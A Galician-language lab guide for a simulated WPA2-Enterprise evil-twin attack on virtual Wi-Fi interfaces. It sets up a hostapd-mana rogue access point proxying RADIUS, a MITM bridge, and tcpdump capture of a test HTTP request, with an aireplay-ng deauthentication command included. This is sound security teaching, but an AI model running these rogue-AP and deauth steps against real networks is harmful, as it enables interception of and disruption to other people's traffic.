

Guía da práctica 2.3 — MITM WPA2-Enterprise (EAP) con hostapd-mana
Material de referencia
Esta guía baséase na práctica 2-Taller-HE-Practica-WiFi-3.pdf. O procedemento descrito a continuación corresponde á topoloxía con ponte br-mitm, preparada polo laboratorio eap_mitm.
1. Obxectivos e topoloxía
Como continuación da práctica 2.2 — Evil Twin, montaremos a topoloxía do PDF de referencia: AP corporativo con FreeRADIUS, cliente PEAP coa CA lexítima, AP intermedio hostapd-mana actuando como proxy RADIUS e ponte de datos br-mitm. O obxectivo final é conectar o cliente de proba expresamente ao BSSID de MANA e observar tráfico HTTP ficticio na ponte.
A selección automática dun AP coa mesma SSID non é determinista. Para que a práctica sexa reproducible, seleccionaremos expresamente o BSSID do AP intermedio, tal como indica o PDF. A autenticación PEAP seguirá tendo lugar contra FreeRADIUS real: o proxy non descifra o túnel PEAP nin o tráfico HTTPS.
1.1. Equipos e terminais
Todos os dispositivos Wi-Fi que se representan son interfaces simuladas dentro da VM Kali mediante mac80211_hwsim. Para desenvolver a práctica, abre estas terminais gráficas en Kali:
| Terminal | Cometido | Espazo de rede |
|---|---|---|
| Consola 1 — Infraestrutura | Iniciar o escenario e comprobar FreeRADIUS, AP lexítimo e HTTP de proba | Principal; comandos con ip netns exec |
| Consola 2 — Cliente | Comprobar asociación, IP e conectividade do cliente | wifi_cliente_wlan1 |
| Consola 3 — AP falso | Arrancar e observar os rexistros de hostapd-mana |
mitm_wlan2 |
| Consola 4 — Ponte MITM | Crear e verificar br-mitm e a súa conectividade |
Comandos desde Kali para mitm_wlan2 |
| Consola 5 — Observación | Monitorizar Wi-Fi, fixar o BSSID de MANA e xerar tráfico HTTP | Principal, wlan3 |
| Consola 6 — Captura HTTP | Observar co tcpdump os GET ficticios que atravesan a ponte |
mitm_wlan2, br-mitm |
1.2. Topoloxía de rede utilizada nesta práctica

Fase A — Inicio do escenario. wifilabctl up eap_mitm crea o AP lexítimo en wifi_ap_wlan0, o cliente en wifi_cliente_wlan1, FreeRADIUS na rede principal, br-radius e as interfaces do atacante (wlan2 en mitm_wlan2; wlan3 no espazo principal). Non inicia automaticamente hostapd-mana.
Fase B — Preparación da ponte. Despois de iniciar MANA e obter AP-ENABLED, wifilabctl bridge-mitm crea br-mitm dentro de mitm_wlan2, une wlan2 e veth0 e sitúa a IP 192.168.50.100/24 en br-mitm. A comunicación cara a FreeRADIUS pasa pola infraestrutura br-radius (192.168.50.1).
Fase C — Cliente no AP intermedio. Primeiro o cliente está asociado ao AP lexítimo. Despois de activar MANA e a ponte, o cliente conéctase ao BSSID do AP intermedio; a guía inclúe sudo wifilabctl select-mitm para fixar esa selección de maneira reproducible, mantendo a CA lexítima e renovando DHCP. A frecha descontinua da figura representa este cambio de asociación, non un enlace permanente entre os dous AP.
Na validación do laboratorio comprobouse a asociación efectiva a MANA, a autenticación PEAP e a observación de HTTP en br-mitm. O feito de arrancar MANA ou crear a ponte, por separado, non constitúe esa demostración.
Topoloxía do laboratorio
A figura representa a rede utilizada nesta práctica: o AP MANA retransmite a autenticación EAP/RADIUS ao FreeRADIUS corporativo e a ponte br-mitm transporta o tráfico de datos. Cando o cliente se asocia a MANA, pódese observar na ponte o tráfico HTTP sen cifrar xerado na proba. A autenticación PEAP continúa validando a CA lexítima: non se descifran as credenciais internas EAP nin o tráfico HTTPS.
1.3. Un único camiño de rede
A práctica utiliza exclusivamente a rede corporativa 192.168.50.0/24, br-radius e br-mitm. O DHCP corporativo é único, e o tráfico HTTP de demostración vai a 192.168.50.1:8080. Non se debe montar outra subrede no atacante nin activar un segundo DHCP; iso impediría seguir o fluxo que figura no PDF.
2. Preparación da infraestrutura — Consola 1
O laboratorio prepara br-radius (192.168.50.1/24), FreeRADIUS (UDP/1812), o AP lexítimo wlan0 (SSID EMPRESA-XYZ, canle 6), o cliente wlan1 e DHCP corporativo na franxa 192.168.50.50–192.168.50.100.
Inicia o escenario con NAT exterior habilitado, tal como se comprobou no laboratorio. Así queda preparado desde o principio tanto o acceso á rede corporativa como a proba de conectividade a Internet do cliente, sen ter que reiniciar posteriormente a infraestrutura.
A variable WIFILAB_ENABLE_NAT=1 habilita o encamiñamento de saída do laboratorio; non modifica a autenticación EAP/RADIUS nin substitúe a ponte br-mitm que se configurará máis adiante. A VM Kali debe ter conectividade exterior para superar a comprobación con 8.8.8.8.
Comproba o servidor de autenticación:
O servidor HTTP local forma parte da proba do PDF. Comproba que responde antes de crear MANA:
Exemplo de saída comprobada:
<!doctype html><html lang="gl"><meta charset="utf-8"><title>Laboratorio Wi-Fi</title><h1>Proba HTTP do laboratorio</h1></html>
A continuación, na Consola 2, comprobaremos tamén a saída a Internet do cliente mediante 8.8.8.8; a conexión a FreeRADIUS e ao servidor HTTP local non depende desa saída exterior.
3. Verificación do cliente lexítimo — Consola 2
Non é necesario abrir unha terminal dentro do namespace; executaremos as ordes desde Kali:
sudo ip netns exec wifi_cliente_wlan1 iw dev wlan1 link
sudo ip netns exec wifi_cliente_wlan1 ip -4 addr show dev wlan1
sudo ip netns exec wifi_cliente_wlan1 ip -4 route
sudo ip netns exec wifi_cliente_wlan1 ping -c 3 192.168.50.1
O cliente debería estar conectado inicialmente ao BSSID do AP lexítimo na canle 6 e obter unha IP da rede 192.168.50.0/24. O seu perfil de wpa_supplicant inclúe ca_cert="/etc/freeradius/3.0/certs/ca.pem": verifica a CA lexítima do servidor PEAP tanto no AP corporativo como no proxy. Anota o BSSID inicial para comparalo despois co de MANA.
Comproba tamén a saída a Internet do cliente, que habilitamos ao iniciar o escenario:
Exemplo de comprobación inicial: o cliente asociouse ao BSSID lexítimo 4a:b3:6f:d5:0f:4b (canle 6), recibiu 192.168.50.76/24 e respondeu aos tres pings, tanto a 192.168.50.1 como a 8.8.8.8. A IP e o BSSID son valores da execución de referencia e poden variar noutra VM.
4. Arranque do punto de acceso intermedio — Consola 3
wifilabctl up eap_mitm xa preparou mitm_wlan2 e xerou a configuración do AP intermedio a partir do escenario. Non é necesario crear o namespace nin escribir un segundo ficheiro manual.
4.1. Examinar a configuración de MANA
Os parámetros principais coinciden co PDF de referencia:
interface=wlan2
ssid=EMPRESA-XYZ
channel=1
wpa=2
wpa_key_mgmt=WPA-EAP
ieee8021x=1
auth_server_addr=192.168.50.1
auth_server_port=1812
auth_server_shared_secret=testing123
eap_server=0
eap_server=0 conserva o proxy RADIUS, polo que a autenticación procede do FreeRADIUS lexítimo. Non se activa un éxito EAP forzado nin a captura do método MSCHAPv2 interno. O cliente segue comprobando a CA do servidor PEAP.
4.2. Iniciar hostapd-mana
Na terceira terminal, desde Kali, executa:
A saída debe incluír AP-ENABLED. Utiliza Ctrl+C para deter só tail, sen pechar o proceso MANA. Anota o BSSID mostrado para wlan2; tamén podes consultalo mediante:
Exemplo de saída no inicio de MANA:
Using interface wlan2 with hwaddr 1e:8a:fc:9c:b2:84 and ssid "EMPRESA-XYZ"
wlan2: RADIUS Authentication server 192.168.50.1:1812
wlan2: interface state UNINITIALIZED->ENABLED
wlan2: AP-ENABLED
O BSSID mostrado é un exemplo: obtén sempre o da túa execución. Este paso confirma que o AP intermedio está listo. O cliente aínda pode seguir asociado ao AP lexítimo; a selección do BSSID comprobarase máis adiante.
5. Crear e validar a ponte — Consola 4
Abre outra terminal en Kali, fóra do namespace do atacante, e executa:
sudo wifilabctl bridge-mitm
sudo ip netns exec mitm_wlan2 ip -4 addr show dev br-mitm
sudo ip netns exec mitm_wlan2 bridge link show
sudo ip netns exec mitm_wlan2 ip route
sudo ip netns exec mitm_wlan2 ping -c 3 192.168.50.1
Comprobacións esperadas:
br-mitmten192.168.50.100/24.wlan2eveth0aparecen como membros da ponte.- A ruta por defecto do namespace MITM pasa por
br-mitmcara a192.168.50.1. - O ping a
192.168.50.1responde.
Saída observada na proba:
[OK] br-mitm configurada: wlan2 + veth0, 192.168.50.100/24
wlan2: ... master br-mitm state forwarding
veth0: ... master br-mitm state forwarding
3 packets transmitted, 3 received, 0% packet loss
Este é o punto no que a topoloxía do segundo panel do diagrama queda montada. Ningunha destas probas, por separado, acredita a migración do cliente ao AP falso.
6. Observación do AP lexítimo e do AP falso — Consola 5
Prepara a interface de monitorización sen empregar airmon-ng check kill, porque podería deter servizos que sosteñen o laboratorio:
Se wlan3 non está en modo monitor, podes preparala coas ferramentas habituais do taller (por exemplo sudo airmon-ng start wlan3) e confirmar o nome resultante con iw dev. Non supoñas que ten que ser sempre wlan3mon.
Co escaneo, comproba que existen dous AP coa mesma SSID EMPRESA-XYZ pero BSSID diferentes: lexítimo (canle 6) e MANA (canle 1). Unha saída de escaneo non demostra que o cliente elixa o AP falso.
No espazo de rede do cliente, a comprobación decisiva é:
- BSSID lexítimo / canle 6: a vítima segue no AP corporativo. A ponte e MANA poden estar listos, pero non se demostrou unha interceptación.
- BSSID do AP MANA / canle 1: hai evidencia de asociación ao AP falso; falta comprobar EAP/PEAP, IP e tráfico posterior.
Not connected: a asociación non se estableceu; revisa os logs antes de continuar.
6.1. Observación da desautenticación (páxinas 16–17 do PDF)
Para comparar coas prácticas WPA2-PSK, podes observar unha desautenticación controlada, exclusivamente neste laboratorio simulado. Non se trata de garantir a migración ao AP MANA.
Primeiro identifica a MAC do cliente e o BSSID real do AP lexítimo:
sudo ip netns exec wifi_cliente_wlan1 iw dev wlan1 link
sudo ip netns exec wifi_cliente_wlan1 cat /sys/class/net/wlan1/address
Se airmon-ng creou wlan3mon, configura a canle do AP lexítimo e realiza un intento limitado (substitúe os enderezos polos obtidos):
sudo iw dev wlan3mon set channel 6
sudo aireplay-ng --deauth 3 -a <BSSID_AP_LEXITIMO> -c <MAC_CLIENTE> wlan3mon
Comproba de novo a asociación:
Resultado observado na execución de referencia: aireplay-ng informou de 0 ACKs nas ráfagas enviadas. Posteriormente, a consulta iw dev wlan1 link amosou que o cliente estaba conectado ao BSSID MANA 1e:8a:fc:9c:b2:84, na canle 1.
Interpretación: o cambio de asociación está comprobado, pero os 0 ACKs non permiten demostrar que a desautenticación recibida fose a causa do cambio. O cliente tamén pode reconectar ao AP lexítimo ou quedar temporalmente sen conexión. Non se deben repetir ráfagas indefinidamente. Se wlan3 conservou o nome en modo monitor, emprégao no canto de wlan3mon; confírmao con iw dev.
6.2. Fixar e comprobar a asociación ao AP MANA
Unha desautenticación non garante a elección do AP falso. Para que todo o alumnado complete a mesma secuencia, fixaremos o BSSID de MANA no perfil temporal do cliente simulado, como indica o PDF (páxina 17), mesmo se a consulta anterior xa amosa unha asociación ao AP intermedio:
O controlador toma o BSSID real de wlan2, mantén ca_cert e reinicia só o wpa_supplicant do cliente simulado. Despois solicita unha concesión DHCP á mesma rede corporativa. A configuración temporal queda en run/eap_mitm/wpa_supplicant-mana.conf; o perfil base consérvase.
Comproba que o cliente se atopa na canle 1 e conectado ao BSSID de MANA, non ao AP lexítimo na canle 6:
sudo ip netns exec wifi_cliente_wlan1 iw dev wlan1 link
sudo ip netns exec wifi_cliente_wlan1 wpa_cli -i wlan1 status
Saída observada ao completar a asociación e a autenticación na proba:
wlan2: STA 22:99:ae:aa:ad:8f IEEE 802.11: associated (aid 1)
wlan2: AP-STA-CONNECTED 22:99:ae:aa:ad:8f
wlan2: STA 22:99:ae:aa:ad:8f IEEE 802.1X: authenticated - EAP type: 25 (PEAP)
A comprobación no cliente amosou:
A liña AP-STA-CONNECTED e a autenticación PEAP deben referirse á mesma MAC de cliente, e o BSSID visto polo cliente debe coincidir co de MANA. As direccións MAC cambian entre execucións. Se falla a asociación ou EAP/PEAP, revisa mana-ap.log, wpa_supplicant-mana.log e os rexistros de FreeRADIUS antes de continuar.
A saída MANA WPA2 HASHCAT | WPA*02..., que tamén pode aparecer nos rexistros, non demostra a recuperación das credenciais PEAP.
7. Verificación de EAP/PEAP e do tráfico
Co cliente conectado expresamente ao BSSID de MANA, comproba autenticación e conectividade:
sudo ip netns exec wifi_cliente_wlan1 iw dev wlan1 link
sudo ip netns exec wifi_cliente_wlan1 wpa_cli -i wlan1 status
sudo ip netns exec wifi_cliente_wlan1 ip -4 addr show dev wlan1
sudo ip netns exec wifi_cliente_wlan1 ping -c 3 192.168.50.1
Na Consola 3 consulta os rexistros de MANA e de FreeRADIUS. A saída wpa_state=COMPLETED xunto co BSSID de MANA e o acceso á rede corporativa son probas complementarias. O controlador ofrece ademais unha comprobación reproducible:
Saída de referencia de verify-mitm obtida na VM:
[OK] BSSID do cliente = MANA
[OK] Autenticación EAP completada
[OK] Conectividade corporativa
[OK] HTTP local accesible
BSSID MANA: 1e:8a:fc:9c:b2:84
[OK] Cliente -> MANA -> br-mitm -> rede corporativa. Captura HTTP por verificar no atacante.
Estas comprobacións demostran que o cliente se conectou ao BSSID de MANA, completou a autenticación e pode chegar á rede corporativa. O controlador non verifica por si mesmo que tcpdump capturase o HTTP: esa evidencia corresponde á Consola 6, no seguinte apartado. Na validación do laboratorio observouse tamén esa captura.
7.1. Observar HTTP en claro atravesando br-mitm — Consola 6
A última fase do PDF non consiste só en comprobar ICMP: debemos observar unha petición HTTP ficticia que o cliente emite cara ao servidor de laboratorio 192.168.50.1:8080.
Na sexta terminal deixa activa a captura en texto no namespace MITM:
Desde a segunda terminal (cliente simulado), executa:
sudo ip netns exec wifi_cliente_wlan1 curl http://192.168.50.1:8080/
sudo ip netns exec wifi_cliente_wlan1 curl -G \
--data-urlencode 'usuario=proba' \
--data-urlencode 'valor=docente' \
http://192.168.50.1:8080/
Exemplo real de saída capturada en br-mitm:
GET /?usuario=proba&valor=docente HTTP/1.1
Host: 192.168.50.1:8080
User-Agent: curl/8.22.0
Accept: */*
Na mesma captura apareceu a resposta HTTP/1.0 200 OK e o corpo HTML de demostración. É a evidencia de que a ponte do atacante transportou e permitiu observar o HTTP en claro xerado polo cliente. Para atribuír esta comunicación ao escenario MITM, comproba antes a asociación ao BSSID de MANA e que a captura se realiza sobre br-mitm.
Non se descifra PEAP nin HTTPS nesta actividade; só se observa HTTP local sen cifrar. Pódese gardar a captura, se se precisa:
7.2. Que podemos dicir do handshake EAP?
En WPA2-PSK, a chave criptográfica derívase da PSK, de modo que un handshake pode empregarse para comprobar candidatos a esa clave. En WPA2-Enterprise, pola contra, a PMK obtense do proceso EAP e non se recupera o contrasinal de ana atacando simplemente un WPA*02 co dicionario Rockyou. Isto non implica que todas as implantacións EAP sexan seguras: a validación do certificado RADIUS e o método EAP empregado seguen sendo fundamentais.
8. Resultados e criterios de avaliación
| Evidencia | Como se comproba | Que significa |
|---|---|---|
| AP e cliente lexítimos | wifilabctl status, iw dev wlan1 link |
Infraestrutura base funcional |
FreeRADIUS en 192.168.50.1:1812 |
ss -lunp e rexistros |
Servizo de autenticación preparado |
| AP MANA iniciado | AP-ENABLED |
AP falso emitindo, non implica MITM |
| Ponte MITM operativa | bridge-mitm, bridge link, ping a 192.168.50.1 |
Topoloxía da figura creada |
| Asociación do cliente a MANA | BSSID/canle en iw dev wlan1 link |
Cliente conectado ao AP falso |
| Autenticación EAP efectiva | wpa_cli status, logs MANA/RADIUS |
Intercambio EAP completado no camiño estudado |
| Tráfico HTTP atravesa a ponte | tcpdump -ni br-mitm -A 'tcp port 8080' e curl desde o cliente |
GET ficticio visible no atacante |
Conclusión da práctica
A topoloxía do diagrama é a que se emprega nesta práctica. Na validación realizada, o cliente conectouse ao BSSID de MANA, completou PEAP coa CA lexítima, obtivo conectividade e o HTTP ficticio foi observado en br-mitm. Para repetir a práctica, verifica as mesmas evidencias na túa execución; se falta algunha, revisa os rexistros correspondentes antes de rematar. O tráfico HTTPS e o interior do túnel PEAP continúan cifrados.
9. Limpeza do escenario
Ao rematar, pecha as terminais que manteñen procesos de captura e MANA e executa desde Kali: